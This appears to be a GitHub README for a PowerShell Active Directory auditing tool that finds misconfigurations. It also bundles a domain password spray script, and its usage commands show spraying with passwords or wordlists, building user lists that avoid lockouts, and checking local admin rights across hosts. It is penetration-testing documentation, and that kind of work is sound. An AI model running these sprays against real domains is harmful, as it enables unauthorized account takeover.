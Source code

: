 <img src="guidance.png" alt="miscon" width="200" height="200"/>

# Miscon
PowerShell script to find misconfigurations in an active directory and can be used for domain password sprays.

## Functions
### Find-Misconfigurations
Find misconfigurations in an active directory.

```PowerShell
-Domain = defines the domain
-Type = defines the type (default = light | other types: extended, quickwins)
```

```PowerShell
Find-Misconfigurations -Domain "test.local"
Find-Misconfigurations -Domain "test.local" -Type "light"
Find-Misconfigurations -Domain "test.local" -Type "extended"
Find-Misconfigurations -Domain "test.local" -Type "quickwins"
```

### DomainPasswordSpray
All Credits goes to dafthack, copied his DomainPasswordSpray PowerShell script, because it is awesome.
Perform domain password spray attacks.

```PowerShell
# single password spray
Invoke-DomainPasswordSpray -Password Spring2017

# uses userlist and passwordlist, creating outfile
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

# using userlist and one password, creating outfile
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -Password Summer2017 -OutFile sprayed-creds.txt

# creating userlist out of the domain
Get-DomainUserList -Domain domainname -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```

### Invoke-CheckLocalAdmin
Function to check a user against a list of hosts, if the user has local admin privileges.

```PowerShell
Invoke-CheckLocalAdmin -user john -hosts C:\Users\user1\Downloads\hosts.txt
```
